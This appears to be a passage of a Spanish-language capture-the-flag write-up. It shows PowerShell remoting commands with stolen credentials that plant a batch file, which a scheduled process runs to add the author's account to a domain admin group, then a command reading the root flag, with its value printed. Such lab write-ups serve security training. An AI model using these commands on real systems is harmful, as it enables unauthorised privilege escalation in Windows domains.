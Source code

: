 Agrego a mi usuario a este grupo

```null
PS C:\Temp> Invoke-Command -ComputerName ATSSERVER -ConfigurationName dc_manage -Credential $cred -ScriptBlock { Set-Content "C:\Program Files\keepmeon\pwned.bat" -Value 'net group Site_admin awallace /domain /add' }
```

A los 5 minutos me añade y puedo ver la segunda flag

```null
PS C:\Temp> Invoke-Command -ComputerName ATSSERVER -ConfigurationName dc_manage -Credential $cred -ScriptBlock { type C:\Users\Administrator\Desktop\root.txt }
ebc8087b9ee3d6f54fea7783820e7b3e
```